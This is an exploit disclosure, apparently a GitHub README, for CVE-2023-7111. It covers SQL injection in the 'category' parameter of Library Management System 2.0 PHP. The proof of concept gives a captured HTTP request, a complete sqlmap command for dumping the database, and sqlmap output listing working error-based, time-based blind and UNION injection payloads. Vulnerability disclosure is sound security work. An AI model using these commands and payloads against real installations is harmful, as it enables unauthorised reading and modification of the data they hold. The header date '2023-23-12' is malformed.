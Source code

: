 # CVE-2023-7111_Library-Management-System_SQL_Injection-3
+ **Exploit Title:** CVE-2023-7111_Library-Management-System_SQL_Injection-3
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/library-management-system-in-php-with-source-code-ver-2-0/
+ **Software Link:** https://download-media.code-projects.org/2020/02/LIBRARY_MANAGEMENT_SYSTEM_IN_PHP_WITH_SOURCE_CODE_VER.2.0.zip
+ **Version:** 2.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7111
  
## References: 
+ **CVE-2023-7111:** https://vuldb.com/?id.249006
+ https://www.cve.org/CVERecord?id=CVE-2023-7111
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7111

## Description:
Library Management System 2.0 allows SQL Injection via parameter 'category' in "/libsystem/index.php?category=1". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the application: "http://localhost/libsystem/index.php"
+ Select the Category from combobox.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
GET /libsystem/index.php?category=1 HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Cookie: PHPSESSID=9p3s52249uv1qh0sp602kn39ul
Referer: http://localhost/libsystem/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
```

+ Use sqlmap to exploit. In sqlmap, use 'category' parameter to dump the database. 
```
python sqlmap.py -r r.txt -p category --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: category (GET)
    Type: error-based
    Title: MySQL OR error-based - WHERE or HAVING clause (FLOOR)
    Payload: category=-7874 OR 1 GROUP BY CONCAT(0x717a7a6b71,(SELECT (CASE WHEN (3499=3499) THEN 1 ELSE 0 END)),0x71716a7a71,FLOOR(RAND(0)*2)) HAVING MIN(0)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace
    Payload: category=(CASE WHEN (6694=6694) THEN SLEEP(5) ELSE 6694 END)

    Type: UNION query
    Title: Generic UNION query (random number) - 8 columns
    Payload: category=-5673 UNION ALL SELECT 7143,7143,7143,CONCAT(0x717a7a6b71,0x58617168457a765948785a58544179556e546b714668456e76436d48635046707750794a64734b61,0x71716a7a71),7143,7143,7143,7143-- -
---
[12:46:50] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.1.6, Apache 2.4.53
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[12:46:50] [INFO] fetching current database
current database: 'libsystem'
```

+ current database: `libsystem`
![3](https://github.com/h4md153v63n/CVEs/assets/5091265/2f9bc202-cb7c-4622-ac38-69252d03bfe5)
